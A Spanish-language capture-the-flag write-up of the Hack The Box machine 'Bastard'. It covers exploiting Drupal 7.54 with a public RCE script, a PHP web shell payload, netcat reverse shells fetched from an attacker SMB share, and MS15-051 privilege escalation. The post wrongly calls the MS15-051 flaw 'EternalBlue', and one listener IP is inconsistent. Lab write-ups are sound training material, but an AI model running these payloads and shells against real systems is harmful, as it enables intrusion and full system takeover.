 ```yaml
---
layout: post
title: Bastard
date: 2022-11-17
categories: ["HTB", "Enumeration", "Drupal", "RCE", "EternalBlue"]
thumbnail: "assets/images/Bastard.png"
---
```


# Bastard [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.9 -oG allPorts`
- `nmap -sCV -p80,135 10.10.10.9 -oN targeted`

`NMAP` nos dice la versión de `Drupal`, en este caso `7`.

### Inspección

Vemos que `NMAP` (además de la versión de `Drupal`) nos dice que el archivo `robots.txt` existe, así que vamos a verlo y vemos un `TXT` llamado `CHANGELOG.txt`, al abrirlo podemos ver (como su nombre indica) los cambios realizados a `Drupal`, vemos que la versión que tienen instalada es la `7.54`, lanzada día uno de febrero del 2017.

```
Drupal 7.54, 2017-02-01
-----------------------

- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

Con SearchSploit buscamos por `Drupal` y nos aparecen muchos `exploits`, pero vemos uno que sirve para todas las versiones de `Drupal 7`, por lo que usaremos ese.

```
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```

Para poder copiarlo en el directorio en el que estamos usaremos el parámetro `-m` y especificaremos la ruta, en este caso: `exploits/php/webapps/41564.php`

- `searchsploit -m exploits/php/webapps/41564.php`

Vemos que el `script` requiere de dos cosas, la `URL` y la ruta `endpoint`, para obtener la ruta usaremos [`DirSearch`](https://github.com/maurosoria/dirsearch), una herramienta que nos ayudará a encontrar directorios y archivos. Lo bueno de [`DirSearch`](https://github.com/maurosoria/dirsearch) es que ya tiene implementado un diccionario propio con las rutas y archivos más importantes y comunes.

Con esto claro procederemos a ejecutar la herramienta, el parámetro `-e` es para especificar la extensión, en este caso `PHP` aunque también encontrará rutas. El parámetro `-x` es para excluir códigos de estado y, por último, el parámetro `-t`, que sirve para especificar la cantidad de hilos a utilizar.

```
dirsearch.py -u "http://10.10.10.9/" -e php -x 403,404 -t 50
```

```
_|. _ _ _ _ _ _|_ v0.3.
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-19-03-07_11-06-02.log

Target: http://10.10.10.9/

[...]
[12:02:32] 200 - 2KB - /robots.txt
[12:02:37] 200 - 62B - /rest/
[...]

Task Completed
```

Como vemos hemos encontrado una ruta con el nombre `rest`, la cual si le enviamos una petición nos sale lo siguiente:

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Bien! Ya tenemos todos los requisitos para poder explotarlo! Aunque antes tenemos que cambiar algunos parámetros del archivo `PHP` antes descargado.

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
'filename' => 'black.php',
'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Vemos que el parámetro `data` es algo extraño, lo puse así para una vez creado el archivo `PHP` pasarle (con el parámetro `cmd`) el comando para ejecutarlo a nivel de sistema.

Bien! Ahora podemos ejecutar el archivo con `php` para que nuestro archivo malicioso se suba.

- `php 41564.php`

```
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/black.php
```

- `curl http://10.10.10.9/black.php?cmd=whoami`

```
nt authority\iusr
```

### Shell

Bien! Ahora que ya podemos ejecutar comandos a nivel de sistema de una forma más cómoda podemos utilizar [`smbserver.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) del repositorio [`Impacket`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) para subir el `EXE` de `NC` y así poder entablarnos una conexión, ya que si tratamos de mandar una petición normal no nos dejará.

- `smbserver.py black .`
- `rlwrap -cAr nc -nlvp 4444`

Una vez hayamos creado el servidor `SMB` y habernos puesto en escucha por el puerto que nosotros queramos podemos visitar la siguiente `URL`:

```
http://10.10.10.9/black.php?cmd=\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.9 4444
```
Bien! Ya estamos dentro de la máquina como `IUSR`!

### Subida de privilegios

Estupendo, ya estamos en la máquina, pero queremos ser administradores, así que comencé por enumerar el sistema con `systeminfo` y me fijé que era `Windows Server 2008`, por lo que estaba bastante desactualizado.

Tras hacer una pequeña búsqueda encontré que era vulnerable a `EternalBlue`, así que para explotarlo me descargué un `ZIP` del repositorio [`Windows Kernel Exploit`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051), el cual contenía un archivo `EXE` llamado `ms15-051x64.exe`.

Antes de nada me gustaría probar si funciona, así que me montaré el servidor de nuevo.

- `smbserver.py black .`

```
PS C:\inetpub\drupal-7.54> \\10.10.14.15\black\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system
```

Funciona! De nuevo utilizaré el servidor `SMB` para transferir el archivo a la máquina víctima y, con `NC`, entablarnos una Reverse Shell. Por lo que nos ponemos en escucha por el puerto que queramos con `NC`.

- `rlwrap -cAr nc -nlvp 443`

```
C:\inetpub\drupal-7.54>\\10.10.14.15\black\ms15-051x64.exe
"\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.15 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================
```
Enhorabuena! Hemos recibido la Reverse Shell y ya somos administradores de la máquina!
